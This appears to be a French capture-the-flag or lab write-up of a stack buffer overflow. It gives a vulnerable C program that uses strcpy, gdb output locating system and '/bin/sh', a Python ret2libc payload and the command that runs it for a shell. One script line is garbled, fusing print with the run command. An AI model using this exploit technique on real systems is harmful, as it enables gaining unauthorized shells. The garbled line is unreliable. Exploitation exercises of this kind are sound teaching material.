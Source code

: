
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void func(char *arg)
{
    char buffer[50];
    strcpy(buffer,arg);
    printf("Bienvenue %s !\n", buffer);
}

int main(int argc, char *argv[])
{
    if(argc != 2) printf("Welcome <votre prenom> \n");
    else func(argv[1]);
    return 0;
}
```

Apres avoir trouver l'`offset` , il faut executer la fonction `systeme` et lui donner comme arguement `/bin/sh`

```sh
(gdb) print system
# $1 = {<text variable, no debug info>} 0xf7c4c870 <system>
```

```sh
(gdb)  find /bin/sh
# Searching for '/bin/sh' in: None ranges
# Found 1 results, display max 1 items:
#libc.so.6 : 0xf7db5fc8 ("/bin/sh")
```

Une fois que nous connaissons les addresses memoires de `system` et `/bin/sh` nous pouvons utiliser le script suivant pour l'exploiter

```python
buf = "A" * 54 # Offset
buf +=  "\x70\xc8\xc4\xf7" # system <--- reverse notation
buf += "\x90" * 4 # NOPs
buf += "\xc8\x5f\xdb\xf7" # /bin/sh <-- reverse notation
print buf./run $(python2 exploit.py)
```

Executer le programme pour obtenir un shell

```sh
./run $(python2 exploit.py)
```
